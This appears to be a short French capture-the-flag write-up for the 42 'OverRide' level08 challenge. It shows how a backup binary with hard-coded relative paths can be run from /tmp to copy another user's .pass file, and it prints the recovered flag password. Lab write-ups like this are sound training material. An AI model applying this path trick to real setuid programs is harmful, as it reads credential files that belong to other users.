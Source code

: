 # Override
Override 42 security level08

On remarque que le f'executable prend un path en argument.

```
level08@OverRide:~$ ./level08 backups/.log
ERROR: Failed to open ./backups/backups/.log
```

Après l'avoir traduit, on se rend vite compte de la vulnérabilité : les paths sont écrits en "dur" et les chemins sont donc relatifs.
On peut donc choisir où le fichier sera créé.

```
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups/home/users/level09/
level08@OverRide:/tmp$ ~/level08 /home/users/level09/.pass # On lance l'executable avec le fichier que l'on souhaite ouvrir
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass # On ouvre la backup créée
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
Merci pour le drapeau
